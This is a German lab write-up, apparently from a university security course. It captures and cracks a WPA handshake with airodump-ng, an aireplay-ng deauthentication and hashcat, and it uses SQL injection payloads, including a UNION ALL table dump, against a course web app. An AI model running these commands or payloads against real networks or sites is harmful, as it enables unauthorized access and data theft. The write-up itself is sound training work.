    
\includegraphics[width=0.6\textwidth]{./imgs/intranet_screenshots/ws_streamanalysis.png}
  \caption{Stream Analysis}
  \label{fig:rtppacket}
\end{figure}

Um die eine Richtung als Audio-Datei zu bekommen habe ich \lstinline{Unsynchronized Forward Stream Audio} gewählt und für die Audiospur des zweiten Gesprächsteilnehmer \lstinline{Unsynchronized Reverse Stream Audio}.

Beim Reverse Audio bekommt man eine Kontonummer für eine Transaktion, \lstinline{17321809}.

\subsection{E-Mail}
\emph{TO BE DONE}

\subsection{IRC}
\emph{TO BE DONE}

\subsection{FTP}
\emph{TO BE DONE}

\subsection{FTP 2}
\emph{TO BE DONE}

\subsection{WLAN-Passwort}

Um an die Hashes des WPA-Passwortes zu kommen haben wir durch das oben angegebene Tutorial herausgefunden dass man mit \lstinline{airodump-ng -w psk wlp3s0} den nötigen Handshake abfangen kann. Dafür muss sich aber ein Client beim Router authentifizieren, worauf wir 10 Minuten lang gewartet haben, aber leider keinen Handshake abgefangen haben. Ein paar Minuten später haben wir herausgefunden, dass wir einen Client deauhentifizieren können mit \lstinline{aireplay-ng -0 1 -a  00:18:39:BF:D7:66 -c 80:1F:02:AB:A9:9E wlp3s0} wo die erste MAC Addresse die vom SecureHotDog ist und die zweite eine von den zwei Clients die wir beobachtet haben.

Als Ergebnis hatten wir anschließend rechts oben sichtbar einen WPA handshake abgefangen für SecureHotDog:

\begin{lstlisting}
  CH  1 ][ Elapsed: 7 mins ][ 2018-11-23 15:05 ][ WPA handshake: 00:18:39:BF:D7:66

  BSSID		    PWR RXQ  Beacons	#Data, #/s  CH	MB   ENC  CIPHER AUTH ESSID
 
  02:18:39:BF:D7:67  -32  50	4319	  830	 0   1	54   OPN	      HotDog
  00:18:39:BF:D7:66  -32  54	4320	  359	 0   1	54   WPA  TKIP	 PSK  SecureHotDog
 
  BSSID		    STATION	       PWR   Rate    Lost    Frames  Probe
 
  02:18:39:BF:D7:67  74:DA:38:F0:40:C2  -29    1 -24	 0	482
  02:18:39:BF:D7:67  74:DA:38:F0:41:1C  -33    1 -24	 0	344
  02:18:39:BF:D7:67  80:1F:02:AB:A9:9C  -43    1 -24	 0	281
  02:18:39:BF:D7:67  80:1F:02:AB:A9:9B  -45    1 -24	 0	228
  00:18:39:BF:D7:66  80:1F:02:AB:A9:9E  -40    1 -24	 0	392
  00:18:39:BF:D7:66  80:1F:02:AB:A9:86  -43   54 -24	 0	256
\end{lstlisting}

Mit den Handshake den ich in der \lstinline{.cap} Datei habe, kann ich mit \href{https://hashcat.net/hashcat/}{hashcat} und einer passenden wordlist das Passwort das in dem Handshake vermittelt worden ist herausfinden.

Zuerst musste ich die \lstinline{.cap} Datei in eine, für hashcat, nutzbare Datei \lstinline{.hccapx} konvertieren. Dazu verwende ich \lstinline{cap2hccapx.exe} von den \href{https://github.com/hashcat/hashcat-utils/releases}{hashcat-utils}.

\begin{lstlisting}
PS C:\Users\hurbe\Desktop\hashcat-utils-1.9\bin> .\cap2hccapx.exe .\SecureHo
tDogHandshake.cap SecureHotDogHandshake.hccapx
Networks detected: 2

[*] BSSID=00:18:39:bf:d7:66 ESSID=SecureHotDog (Length: 12)
  --> STA=80:1f:02:ab:a9:9e, Message Pair=0, Replay Counter=5
  --> STA=80:1f:02:ab:a9:9e, Message Pair=2, Replay Counter=5
[*] BSSID=02:18:39:bf:d7:67 ESSID=HotDog (Length: 6)

Written 2 WPA Handshakes to: SecureHotDogHandshake.hccapx 
\end{lstlisting}

Ich habe dann verschiedene Wordlists probiert, habe es dann mit der \href{https://github.com/danielmiessler/SecLists}{SecLists} Wordlist geschafft.

\begin{lstlisting}
PS C:\Users\hurbe\Desktop\hashcat-5.0.0> git clone git@github.com:danielmiessler/SecLists.git
Cloning into 'SecLists'...
remote: Enumerating objects: 24, done.
remote: Counting objects: 100% (24/24), done.
remote: Compressing objects: 100% (19/19), done.
remote: Total 7432 (delta 9), reused 13 (delta 5), pack-reused 7408
Receiving objects: 100% (7432/7432), 497.36 MiB | 10.93 MiB/s, done.
Resolving deltas: 100% (3610/3610), done.
Checking out files: 100% (5219/5219), done.
\end{lstlisting}

Anschließend habe ich hashcat mit \lstinline{-a 0} aufgerufen, damit hashcat nur mit der Wordlists zu Hashen versucht und \lstinline{-m 2500} damit hashcat weiß dass es sich um ein WPA-Passwort handelt.

\begin{lstlisting}
PS C:\Users\hurbe\Desktop\hashcat-5.0.0> .\hashcat64.exe -a 0 -m 2500 .\SecureHotDogHandshake.hccapx .\SecLists\Miscellaneous\lang-german.txt
hashcat (v5.0.0) starting...

OpenCL Platform #1: Intel(R) Corporation
========================================
* Device #1: Intel(R) HD Graphics 520, skipped.
* Device #2: Intel(R) Core(TM) i7-6600U CPU @ 2.60GHz, skipped.

OpenCL Platform #2: NVIDIA Corporation
======================================
* Device #3: GeForce GPU, 256/1024 MB allocatable, 3MCU

INFO: All hashes found in potfile! Use --show to display them.

Started: Fri Dec 07 15:16:36 2018
Stopped: Fri Dec 07 15:16:37 2018
PS C:\Users\hurbe\Desktop\hashcat-5.0.0> .\hashcat64.exe -a 0 -m 2500 --show .\SecureHotDogHandshake.hccapx .\SecLists\Miscellaneous
\lang-german.txt
8846bd13306f888974f8eb7d97aea2f8:001839bfd766:801f02aba99e:SecureHotDog:Aufmunterung
\end{lstlisting}

Hier kann man das Passwort \lstinline{Aufmunterung} sehen.

\subsection{HTTPS}
\emph{TO BE DONE}

\section{Manager9000}

Einrichten der Verbindung:

Da die Webseite (Manager9000) nur über die \lstinline{tese.inso.tuwien.ac.at} erreichbar ist, muss zunächst eine ssh Portweiterleitung eingerichtet werden.

\begin{lstlisting}
C:\Users\bernh>ssh -ND 12345 e01627766@tese.inso.tuwien.ac.at -p 12345
The authenticity of host '[tese.inso.tuwien.ac.at]:12345 ([128.130.59.16]:12345)' can't be established.
ECDSA key fingerprint is SHA256:xMYnf3yVpglNBSlUqiKgeyjcQHnZE6qCWKpxk/nKISI.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[tese.inso.tuwien.ac.at]:12345,[128.130.59.16]:12345' (ECDSA) to the list of known hosts.
e01627766@tese.inso.tuwien.ac.at's password:
\end{lstlisting}

Danach kann man im Web Browser in den Proxy-Einstellungen als \lstinline{SOCKS-Host "localhost"} und den gewählten \lstinline{Port} eintragen. Nun kann die Seite (Manager9000) aufgerufen werden.

\begin{figure}[h!]
  \centering
  \fbox{
    
\includegraphics[width=0.75\textwidth]{./imgs/manager9000/proxy.png}
  }
  \caption{Browser-Verbindungseinstellungen}
  \label{fig:proxy}
\end{figure}

\begin{figure}[h!]
  \centering
  \fbox{
    
\includegraphics[width=0.65\textwidth]{./imgs/manager9000/enterSite.png}
  }
  \caption{Seitenaufruf}
  \label{fig:enterSite}
\end{figure}

\pagebreak

\subsection{Schwachstelle finden}

Die erste Aufgabe war durch das Herausfinden einer Schwachstelle sich auf der Seite, ohne bekannte Login-Daten, anzumelden.
Ein guter Anfang ist hier das Ausprobieren verschiedener Zeichen in den Formularfeldern. Nach einigen Versuchen konnte man nach Eingabe eines \lstinline{"'"} sehen, dass es sich anscheinend um eine SQL(SQLite)-Schwachstelle handelt.

\begin{figure}[h!]
  \centering
    
\includegraphics[width=0.5\textwidth]{./imgs/manager9000/m9000_sql_error1.png}
  \caption{SQL Schwachstelle}
  \label{fig:sql_weakness}
\end{figure}

Nach kurzer Recherche zu dieser Art von Schwachstelle und noch etwas Probieren sind wir bald auf die richtige Methode gekommen.

In \hyperref[fig:sql_injection]{Abbildung~\ref*{fig:sql_injection}} ist die richtige Zeichenfolge zu sehen die für Nickname und Passwort verwendet werden kann, um diese zu umgehen.

\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.5\textwidth]{./imgs/manager9000/m9000_sql_injection.png}
\caption{SQL Injection}
\label{fig:sql_injection}
\end{figure}

Nach erfolgreichem Einloggen stehen drei Subseiten zur verfügung \lstinline{(Miners, Wallet und Kontakte)}.

\pagebreak

\subsection{Wer schürft am meisten?}

Wenn man auf der Seite nun auf \lstinline{Miners} navigiert wird eine Liste von Minern angezeigt.
Jedoch sind hier nicht alle Miner sichtbar, sondern nur die eigenen.

\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.95\textwidth]{./imgs/manager9000/miners_red.png}
\caption{Miners}
\label{fig:miners}
\end{figure}

Wie unten auf der Seite zu sehen ist gibt es zu den eigenen \lstinline{11} noch weitere \lstinline{39 Miner}.
Diese galt es nun durch einen Missbrauch des Filters sichtbar zu machen.

Dafür habe ich wieder eine Reihe an verschiedenen Zeichenfolgen in das Filterfeld eingegeben und die ausgegebene Fehlermeldung ausgewertet.
Auch ist aufgefallen dass beim öffnen der Web-Entwicklerkonsole (oder Quelltext-Ansicht) ein Kommentar an den Entwickler mit hilfreichen Informationen hinterlassen wurde.

\begin{lstlisting}
  <!--
An den Entwickler:
Wegen deiner Frage....
Habs jetzt mal schnell rein gecodet... Zurzeit speichern wir in der Spalte "own_by" den Namen der Person, welcher der Miner gehoert. Sollten dies vlt in Zukunft ueberdenken.
Aber bereden wir das alles nach dem Urlaub :D Bin dann mal weg!!

PS: Ach ja bevor ich es vergesse, ich muss zwecks Debuggen die SQL-Fehlerausgabe einschalten um den Filter zu verbessern, aber mach dir keine Sorgen
  was soll beim Filtern schon viel schief gehen?!?
-->
\end{lstlisting}

\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.75\textwidth]{./imgs/manager9000/all_miners_red.png}
\caption{Alle Miners}
\label{fig:all_miners}
\end{figure}

In \hyperref[fig:all_miners]{Abbildung~\ref*{fig:all_miners}} kann man die \lstinline{SQL-injection} sehen mit der die Suche nach einem Namen umgangen wird und mit einem \lstinline{"or 1 = 1"} alle einträge angezeigt werden. Die Zeichenfolge \lstinline{"--"} am Ende wird benötigt um den restlichen noch vorhandenen Befehl auszukommentieren.

Nun kann aus der Liste der \lstinline{Miner} mit den höchsten geschätzten Einnahmen ausgelesen und dessen Name ermittelt werden.

\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.9\textwidth]{./imgs/manager9000/highest_miner.png}
\caption{Miner mit höchsten Einnahmen}
\label{fig:highest_miner}
\end{figure}

\subsection{Mein Wallet}

Auf der Sub-Seite \lstinline{Wallet} gab es wieder einen Kommentar an den Entwickler:

\begin{lstlisting}
  <!--
An den Entwickler: Diese Seite ist noch ganz am Anfang und wir sollten ueberpruefen ob es wirklich nicht moeglich ist auf andere Wallet zuzugreifen.
DB Struktur ist folgende
CREATE TABLE wallet (
	id INTEGER NOT NULL PRIMARY KEY AUTOINCREMENT,
	pub_key VARCHAR(32) UNIQUE,
	amount DECIMAL(10,2),
	last_used DATE,
	active BIT DEFAULT(0)
);
-->
\end{lstlisting}

Dank der hier angeführten Struktur der Tabelle konnte man an einem Weg arbeiten die Wallet Daten von Anderen bzw. Allen anzuzeigen. Da auf dieser Seite kein Filterfeld vorhanden ist musste ein Weg gefunden werden, auf einer der anderen Seiten den Inhalt der Tabelle ausgeben zu können.

Nach einigen Versuchen und weiterer Recherche bin ich auf den SQL-Befehl \lstinline{union all} gestoßen. Mit diesem kann man mehrere \lstinline{select statements} aneinander hängen und deren Ausgabe kombinieren. Jedoch muss dabei darauf geachtet werden, dass bei jedem \lstinline{select statement} gleich viele Spalten ausgewählt werden. Ich habe auf der \lstinline{Miners} Sub-Seite das Filterfeld genutzt um mehrere Tabelleninhalte auszugeben.

Hier ist das \lstinline{SLQ-statement} das ich benutzt habe um die vollständigen Inhalte der Tabellen \lstinline{miner, wallet} und \lstinline{contacts} untereinander auszugeben:

\begin{lstlisting}
  *%' or 1 = 1) union all select id, name, name, pub_key, name, name from contacts union all select id, amount, last_used, pub_key, active, active from wallet--
\end{lstlisting}

Da es recht viele Einträge in der Tabelle \lstinline{wallet} gab und nicht alle davon relevant waren (bei \lstinline{active} Bit 0 gesetzt), habe ich diese kopiert und in einem Editor bearbeitet. Nun mussten noch die Kontostände der Einträge mit gesetztem \lstinline{active} Bit zu verglichen werden. Nachdem der höchste Kontostand gefunden war musste nur noch der \lstinline{public key} (Spalte \lstinline{"pub_key"}) ausgelesen werden.

\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.8\textwidth]{./imgs/manager9000/wallet_pub_key.png}
\caption{Public key des höchsten Kontostands eines aktiven Wallets}
\label{fig:wallet_pub_key}
\end{figure}

\subsection{CEO's key}

Auch auf der Sub-Seite \lstinline{Contacts} war wieder ein hilfreicher Kommentar zu finden:

\begin{lstlisting}
  <!--
An den Entwickler:
Die Idee den Public-Key mit die Kontakte zu verknuepfen war eine schlechte Idee. Hab jetzt ganz schnell alles im Webinterface rueckgaengig gemacht. Die DB hab ich so gelassen, kann ja eh niemand den Wert von "pub_key" auslesen!
-->
\end{lstlisting}

Um den \lstinline{public key} des CEO herauszufinden habe ich, da ich bereits alle Tabellen aufgelistet habe, den selben \lstinline{SQL-Befehl} verwendet:

\begin{lstlisting}
  *%' or 1 = 1) union all select id, name, name, pub_key, name, name from contacts union all select id, amount, last_used, pub_key, active, active from wallet--
\end{lstlisting}

